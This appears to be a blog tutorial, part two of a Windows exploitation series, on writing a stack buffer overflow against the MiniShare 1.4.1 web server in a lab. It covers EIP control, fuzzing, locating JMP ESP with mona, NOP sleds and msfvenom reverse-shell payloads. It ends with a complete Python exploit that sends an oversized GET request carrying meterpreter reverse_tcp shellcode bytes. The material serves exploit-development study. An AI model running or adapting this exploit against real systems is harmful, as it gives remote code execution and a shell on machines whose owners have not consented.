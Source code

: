 ```yaml
---
layout: post
title:  "Windows Exploitation Part II"
date:   2020-1-1 00:02:00 +0000
categories: Windows-Exploitation
---
```

# Windows Exploitation Part II - Writing a Standard Stack Buffer Overflow



# Bull by the horns in theory
In this part ill be working through how we can achieve code execution by overwriting crucial application pointers in memory. We know from the previous part that EIP is our Extended Instruction Pointer. 
This pointer is what is used by applications to keep track of the next instruction to be executed. Due to this, we can steer the application ourself if we overwrite this. 

# Setup

When testing and creating exploits like this i choose to run an extra windows vm to serve as a host to the program and debugger alongside the linux vm where ill work from.
My windows 7 VM is x86 based with immunity debugger and the mona.py plugin. The linux platform can vary as long as it has the ability to communicate with the windows machine.
For this instance, we will be testing the vulnerable 'Minishare 1.4.1' application.
# Testing the application 
I mentioned that ill be using immunity with the mona.py plugin. Mona is a plugin for immunity and other windows based debuggers that simplifies the exploitaiton process. Ill have a link listed later on how to get it installed.

# Fuzzing + skeleton
Fuzzing is a method of sending an application data intended to crash the application. For overflows like this, we will need to fuzz the application to get it to crash in order to determine the memory offset to EIP. I will probably write up later how to use an actual framework for fuzzing like spike or afl but for now we can just create a basic fuzzer in python.

# Determining the offset to EIP


A basic skeleton would look something like this;
{% highlight python %}
import socket
rhost=
rport=
offset=
jmpesp=

payload=
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((rhost,rport))
s.send(payload)
print "[!] Sent"
s.close
{% endhighlight %}
This particular basic skeleton uses the socket library to send our payload to the host. For this use, i either use sockets like this or the pwntools library as it has abilities similar to socket and struct built in.

# Finding our jump address
This is actually a simple step due to the addition of the mona plugin. We can use it to directly search for our instruction 'JMP ESP' which translates to 'FFE4' in hex. Its also important that there are several instructions that will do what we need, not just JMP ESP. Ill try cover the rest and differences later.

```
!mona find -s "\xFF\xE4"
```


Once we have found our JMP ESP addresses, we should take note and start building our exploit.
# Writing our exploit

# Shellcode
Shellcode is a small piece of code used in our exploit to achieve code execution. It is made up of raw bytes that will be executed from memory. For this example we will be creating some to return us a shell.

We can generate our shellcode with msfvenom with something like the following:
```
msfvenom -p windows/meterpreter/reverse_tcp -b "\x00\x0a\x0d" -f python

-p = payload > windows based meterpreter with reverse tcp payload
	> due to meterpreter, we can use metasploit as a listener
-b = bad chars > characters we need to remove for the payload to work
	> 0x00 = null byte 0x0a/0x0d = CRLF
-f = format > since were using python to send the payload this should work 
```

# Nop sled
In assembly, '0x90' is a NO-Operation, basically 'do nothing'. We can use a small sum of these instructions as a precaution incase our jump instruction is off by a few bytes.
We add the nops before our shellcode so in the event that the jump is off, we hit the nops and simply do nothing until we hit our shellcode. 
```
Current instruction
  |				Shellcode executes
  V ---->			 --V
\x90\x90\x90\x90\x90\x90\x90\x90\[shellcode]
```
Usually we dont need more than a few nops, a word or dword is usually sufficient.


# Final steps
Now that weve created and found all the relevent values for our exploit we just need to piece them together in to a file we can execute for ease of use. 

Our final exploit:
{% highlight python %}
# imports socket library for socket communication
import socket
# stored variables for remote host connection
rhost = '192.168.9.147'
rport = 80
# added nopsled for padding
nops = "\x90" *20
# msfvenom shellcode
shellcode = ("\xb8\xb5\xcc\x15\x37\xdb\xc2\xd9\x74\x24\xf4\x5b"
"\x33\xc9\xb1\x31\x31\x43\x13\x03\x43\x13\x83\xeb"
"\x49\x2e\xe0\xcb\x59\x2d\x0b\x34\x99\x52\x85\xd1"
"\xa8\x52\xf1\x92\x9a\x62\x71\xf6\x16\x08\xd7\xe3"
"\xad\x7c\xf0\x04\x06\xca\x26\x2a\x97\x67\x1a\x2d"
"\x1b\x7a\x4f\x8d\x22\xb5\x82\xcc\x63\xa8\x6f\x9c"
"\x3c\xa6\xc2\x31\x49\xf2\xde\xba\x01\x12\x67\x5e"
"\xd1\x15\x46\xf1\x6a\x4c\x48\xf3\xbf\xe4\xc1\xeb"
"\xdc\xc1\x98\x80\x16\xbd\x1a\x41\x67\x3e\xb0\xac"
"\x48\xcd\xc8\xe9\x6e\x2e\xbf\x03\x8d\xd3\xb8\xd7"
"\xec\x0f\x4c\xcc\x56\xdb\xf6\x28\x67\x08\x60\xba"
"\x6b\xe5\xe6\xe4\x6f\xf8\x2b\x9f\x8b\x71\xca\x70"
"\x1a\xc1\xe9\x54\x47\x91\x90\xcd\x2d\x74\xac\x0e"
"\x8e\x29\x08\x44\x22\x3d\x21\x07\x28\xc0\xb7\x3d"
"\x1e\xc2\xc7\x3d\x0e\xab\xf6\xb6\xc1\xac\x06\x1d"
"\xa6\x53\xe5\xb4\xd2\xfb\xb0\x5c\x5f\x66\x43\x8b"
"\xa3\x9f\xc0\x3e\x5b\x64\xd8\x4a\x5e\x20\x5e\xa6"
"\x12\x39\x0b\xc8\x81\x3a\x1e\xab\x44\xa9\xc2\x02"
"\xe3\x49\x60\x5b")
# Overflow occurs in long GET request.
buffer = "GET "
#buffer +="\x41" *2000
#buffer += "\x41"*1787 + "\x42" *4 # lands us at 42424242 
#buffer += "\x41" * 1787 + "\x42" * 4 + "\x43" * (2000-1787-4)
buffer += "\x41" * 1787 + "\xDF\x19\x2D\x77" + nops +  shellcode + "\x43" * (2000-1787-4)
buffer +=" HTTP/1.1\r\n\r\n"
# Socket setup and sending
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[!] Sending payload"
s.connect((rhost,rport))
print "[!] Sent"
s.send(buffer)
s.close

{% endhighlight %}


# Extra References
[Getting started with mona](link)
[Corelan Overflow paper](link)
[Minishare download](link)
[Extra Bof practice binaries](link)

# Next
The next part will focus on dealing with the windows Structured Exception Handler or SEH when writing stack based buffer overflows. 

<br>
Windows Exploitation:
[I](/windows-exploitation/2019/12/31/WinExplP1.html)	[II](/windows-exploitation/2019/12/31/WinExplP2.html)	[III](/windows-exploitation/2019/12/31/WinExplP3.html)	[IV](/windows-exploitation/2019/12/31/WinExplP4.html)	[V](/windows-exploitation/2019/12/31/WinExplP5.html)
